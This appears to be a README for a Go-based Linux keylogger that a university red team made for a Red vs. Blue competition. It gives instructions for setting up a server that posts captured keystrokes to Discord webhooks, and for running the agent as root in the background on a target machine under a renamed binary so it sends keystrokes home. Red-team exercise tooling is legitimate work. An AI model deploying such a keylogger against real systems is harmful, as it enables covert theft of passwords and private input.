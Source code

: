 # Keyboard-Vulture
![SpidermanVulture](https://cdn.mos.cms.futurecdn.net/ywDAmc9ikSaceqm7taFSuP.jpg)

## What is this tool?
Keyboard Vulture is a basic Linux keylogger written in Go. When run as root, it captures keyboard input and sends it to a server over SYSLOG. The server then posts the keystrokes to Discord using webhooks. 

## Why does this tool exist?
This tool is a part of the [Sinister Scripts](https://github.com/nos3curity/Sinister-Scripts) suite of homegrown APT tools developed by the [Cal Poly Pomona SWIFT](https://www.calpolyswift.org/) club Red Team for the Red vs. Blue competition. Keyboard Vulture is only made for this single purpose and if you plan on using it for something actually malicious, maybe reconsider your life choices.

## How do you set up the server?
First, create a channel for every team in your Discord server and restrict access to them to just Red Team. Go to each channel's settings and create webhook URL's.

Second, create the `./Server/.teams` file with Discord webhooks for every team's channel with the following syntax:
```
TEAM1=https://discord.com/api/webhooks/...
TEAM2=https://discord.com/api/webhooks/...
TEAM3=https://discord.com/api/webhooks/...
TEAM4=https://discord.com/api/webhooks/...
```

Lastly, either use a prebuilt binary from the latest release or build it from source as such:
```
cd Server && go build
```

You can now start the server as such or add the optional command line flags from `./Server -h`:
```
./Server
```

## How do you set up the agent?
First, either grab a prebuilt binary or build it from source as such:
```
cd Agent && go build
```

Once you transfer the binary to the target system, ensure you are running it as root like the following (make sure to rename the file for OPSEC):
```
chmod +x Agent
./Agent -s 192.168.10.10 -p 80 -t 1 &
```
- `-s` specifies the IP of the Vulture server
- `-p` specifies the port of the Vulture server
- `-t` specifies the team number for the webhook
- ` &` sets the process to the background

That's it. You should now be all set. Keystrokes get sent home when ENTER is pressed on the keyboard.